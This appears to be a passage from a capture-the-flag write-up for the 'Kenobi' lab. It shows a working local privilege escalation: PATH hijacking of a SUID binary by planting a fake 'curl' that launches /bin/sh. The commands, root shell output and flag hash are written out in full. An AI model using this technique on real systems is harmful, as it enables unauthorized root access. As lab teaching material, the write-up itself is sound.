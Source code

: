 Strings is a command on Linux that looks for human readable strings on a binary.

![](toHFALv.png)

This shows us the binary is running without a full path (e.g. not using /usr/bin/curl or /usr/bin/uname).

As this file runs as the root users privileges, we can manipulate our path gain a root [[Shell]] :

We copied the /bin/sh shell, called it curl, gave it the correct permissions and then put its location in our path. This meant that when the /usr/bin/menu binary was run, its using our path variable to find the "curl" binary.. Which is actually a version of /usr/sh, as well as this file being run as root it runs our shell as root!

```
kenobi@kenobi:/tmp$ echo /bin/sh > curl
kenobi@kenobi:/tmp$ chmod 777 curl
kenobi@kenobi:/tmp$ export PATH=/tmp:$PATH
kenobi@kenobi:/tmp$ /usr/bin/menu

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :1
# id
uid=0(root) gid=1000(kenobi) groups=1000(kenobi),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),113(lpadmin),114(sambashare)

# cd root
# ls
root.txt
# cat root.txt
177b3cd8562289f37382721c28381f02

```

Pwned !!
